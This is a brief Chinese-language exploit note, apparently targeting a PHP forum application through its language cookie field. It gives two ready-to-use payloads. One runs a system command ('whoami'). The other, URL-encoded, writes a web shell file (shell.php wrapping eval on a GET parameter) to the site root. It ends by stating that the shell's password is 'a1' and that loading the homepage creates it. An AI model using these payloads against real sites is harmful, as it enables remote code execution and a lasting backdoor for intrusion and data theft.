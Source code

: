 修改Cookie中的xxxx_language字段为以下内容：

`Z3T2_2132_language=en'.system("whoami").';`

`%27.+file_put_contents%28%27shell.php%27%2Curldecode%28%27%253c%253fphp+%2520eval%28%2524_%2547%2545%2554%255b%2522a1%2522%255d%29%253b%253f%253e%27%29%29.%27`

访问网站首页则会在根目录下生成木马文件,shell.php 密码为a1

